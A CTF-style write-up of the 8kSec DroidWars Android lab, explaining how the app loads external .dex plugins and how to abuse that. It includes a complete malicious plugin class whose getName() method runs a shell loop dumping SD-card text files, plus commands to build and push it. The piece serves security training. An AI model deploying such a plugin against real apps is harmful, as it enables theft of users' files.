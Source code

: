 ```yaml
---
title:  "8kSec DroidWars Writeup"
date:   2025-10-03T16:32:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for DroidWars challenge from 8kSec Android Labs. 

```
Goal:
Goal is to create a plugin that appears legitimate but contains hidden code that, when loaded in DroidWars, steals files stored on the SD card without requiring any additional permissions.
```

## Static Analysis

![](/assets/8ksec_droidwars_images/screen1.png)

Main function of application is showing game characters and their statistics on screen. Every character is a plugin file that loaded from spesific diretory on device. When we open the app in emulator, it shows a pikachu character as example. Also we can refresh the list, clear the plugins, check for malicious plugins and open the debug screen on main activity on settings screen. Lets start our analysis with jadx.

### Code Analysis

Manifest file have only one activity, MainActivity. In MainActivity code, `loadExternalPlugin` method is important for us.With `checkStoragePermissionAndLoadPlugins`, app checking for external storage access and after that it calls that function.

![](/assets/8ksec_droidwars_images/load_plugin.png)

`getAvaliablePlugins` method checks `/sdcard/PokeDex/plugins` directory for external plugins files with `.dex` file extension. If any dex file found, load it with `loadPlugin` method from `pluginLoader` class.

````java
public final PokemonPlugin loadPlugin(String pluginName)

...
...
...

DexClassLoader dexClassLoader = new DexClassLoader(file2.getAbsolutePath(), this.context.getDir("dex", 0).getAbsolutePath(), null, this.context.getClassLoader());
        setupOutputMonitoring();
        Object loadSimplePlugin = loadSimplePlugin(dexClassLoader, pluginName);
        if (loadSimplePlugin != null) {
            Log.d(TAG, "Successfully loaded SimplePlugin implementation");
            Function1<? super String, Unit> function14 = this.onLogMessage;
            if (function14 != null) {
                function14.invoke("Successfully loaded SimplePlugin implementation");
            }
            return new SimplePluginAdapter(loadSimplePlugin);
        }
        for (String str3 : CollectionsKt.listOf((Object[]) new String[]{pluginName + "Plugin", "MaliciousPlugin", StringsKt.removeSuffix(pluginName, (CharSequence) "_copy") + "Plugin", "com.eightksec.droidwars.plugin." + pluginName + "Plugin"})) {
            try {
                String str4 = "Attempting to load class: " + str3;
                Function1<? super String, Unit> function15 = this.onLogMessage;
                if (function15 != null) {
                    function15.invoke(str4);
                }
                loadClass = dexClassLoader.loadClass(str3);
            } catch (ClassNotFoundException unused) {
                String str5 = "Class not found: " + str3;
                Function1<? super String, Unit> function16 = this.onLogMessage;
                if (function16 != null) {
                    function16.invoke(str5);
                    Unit unit = Unit.INSTANCE;
                }

...
...
...
````
`loadPlugin` method generates DexClassLoader object from given dex files and calls `loadSimplePlugin` method with this class loader object.

````java
private final Object loadSimplePlugin(ClassLoader classLoader, String str) {
        Class<?> loadClass;
        for (String str2 : CollectionsKt.listOf((Object[]) new String[]{String.valueOf(StringsKt.removeSuffix(str, (CharSequence) "Plugin")), String.valueOf(str), "MaliciousPlugin"})) {
            try {
                String str3 = "Attempting to load SimplePlugin implementation: " + str2;
                Log.d(TAG, str3);
                Function1<? super String, Unit> function1 = this.onLogMessage;
                if (function1 != null) {
                    function1.invoke(str3);
                }
                loadClass = classLoader.loadClass(str2);
                Intrinsics.checkNotNull(loadClass);
            } catch (ClassNotFoundException unused) {
            ...
            ...
            //some error catch here
            ...
            ...
            }
            if (isSimplePluginImplementation(loadClass)) {
                String str6 = "Found SimplePlugin implementation: " + str2;
                Log.d(TAG, str6);
                Function1<? super String, Unit> function14 = this.onLogMessage;
                if (function14 != null) {
                    function14.invoke(str6);
                }
                classLoader = loadClass.newInstance();
                return classLoader;
            }
            Unit unit3 = Unit.INSTANCE;
        }
        return null;
    }


````
`loadSimplePlugin` method gets plugin name and remove the "Plugin" suffix from it if exist. After that it generate class name list and try to load them in for loop.

```java
// For example: Your plugin name is: TestPlugin.dex


CollectionsKt.listOf((Object[]) new String[]{String.valueOf(StringsKt.removeSuffix(str, (CharSequence) "Plugin")), String.valueOf(str), "MaliciousPlugin"})

// this code generate [Test,TestPlugin,MaliciousPlugin] list and loadClass function try to load them as class

```
But if we set our class name same with dex file name and  give our dex file name like "ClassName.dex or ClassNamePlugin.dex", loadClass method probably give "class not found" error. Because loadClass method use fully qualified class name. For loading the our class without error, we need to set our dex file name as `package_name.class_name.dex`

```
Example:

I will set my class name as 'Pwn'
My package name : 'com.eightksec.droidwars.plugin'

loadClass method expect a 'com.eightksec.droidwars.plugin.Pwn' for loading that class.

loadSimplePlugin method remove suffix from plugin name and use the result as class name, so i need to set my plugin file name as

'com.eightksec.droidwars.plugin.Pwn.dex' 

```
Also `loadSimplePlugin` method checks the plugin format with `isSimplePluginImplementation` method.

````java
private final boolean isSimplePluginImplementation(Class<?> cls) {
        try {
            Method method = cls.getMethod("getName", new Class[0]);
            Method method2 = cls.getMethod("getType", new Class[0]);
            Method method3 = cls.getMethod("getAllData", new Class[0]);
            if (Intrinsics.areEqual(method.getReturnType(), String.class) && Intrinsics.areEqual(method2.getReturnType(), String.class)) {
                return method3.getReturnType().isAssignableFrom(Map.class);
            }
            return false;
        } catch (Exception unused) {
            return false;
        }
    }
````
This method checks that if plugin contains `getName`,`getType` and `getAllData` methods and controls their return types. We have to implement our malicious plugin with this methods.

Here is my pwn plugin code:

```java
package com.eightksec.droidwars.plugin;

import java.util.*;
import java.util.*;
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Pwn{

    public String getName() {
        code_exec();
        return "Mal";
    }

    public String getType() {
        return "Pwn";
    }

    public Map<String, Integer> getAllData() {
        Map<String, Integer> stats = new HashMap<>();
        stats.put("HP", 30);
        stats.put("Attack", 31);
        stats.put("Defense", 32);
        stats.put("Sp. Attack", 33);
        stats.put("Sp. Defense", 34);
        stats.put("Speed", 40);
        return stats;
    }

    private void code_exec(){
    try {
        String[] cmd = {
            "/system/bin/sh", "-c",
            "for file in /sdcard/*.txt; do printf '%s\\n' \"$file\"; cat \"$file\"; done"
        };
        Process process = Runtime.getRuntime().exec(cmd);
        BufferedReader reader = new BufferedReader(
            new InputStreamReader(process.getInputStream())
        );
        String line;
        while ((line = reader.readLine()) != null) {
            System.out.println("Stolen data: " + line);
        }
        process.waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    
}
```

I wrote `code_exec` method for shell command execution. I called it inside `getName` method because this method is called during listing the plugins. For creating dex file from java file, i got some help from stackoverflow and chatgpt :) 

```sh
$ javac Pwn.java

$ jar cvf Pwn.jar Pwn.class

$ ~/Android/Sdk/build-tools/32.0.0/d8 --output . Pwn.jar

$ mv classes.dex com.eightksec.droidwars.plugin.Pwn.dex

$ adb push com.eightksec.droidwars.plugin.Pwn.dex /sdcard/PokeDex/plugins

```
After pushing the plugin to plugin directory and start the app, we can see the logs that we send from our malicious plugin.

![](/assets/8ksec_droidwars_images/stolen.png)

In real life scenarios, instead of getting files, we can get reverse shell. Also we can put our malicious plugin via malicious application. But here thats enough :)

Thats all, see you!

PoC Video: [Youtube](https://youtu.be/iqDgs8dpDf8)
